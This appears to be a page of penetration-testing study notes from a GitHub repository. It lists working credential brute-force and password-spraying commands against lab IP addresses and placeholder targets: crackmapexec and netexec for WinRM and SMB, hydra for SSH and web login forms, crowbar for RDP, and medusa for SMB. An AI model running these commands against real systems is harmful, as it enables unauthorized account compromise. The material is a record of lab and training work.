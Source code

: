 
- check [services footprinting](https://github.com/kiro6/penetration-testing-notes/blob/main/Penetration%20Testing/Footprinting/Services.md)

```bash
crackmapexec winrm 10.129.42.197 -u user.list -p password.list

## this is better
netexec smb 10.129.202.85 -u user.list -p password.list 

# hydra
hydra -L user.list -P password.list ssh://10.129.42.197
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form  "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /

# for openvpn, rdp, sshkey, vnckey
crowbar -b rdp -s xx.xxx.xxx.xxx/32 -u johanna -C <full-mutated-password-list


# medusa is also awesome for smb
medusa -M smbnt -h 10.129.135.10 -u jason -P passwords.list
```

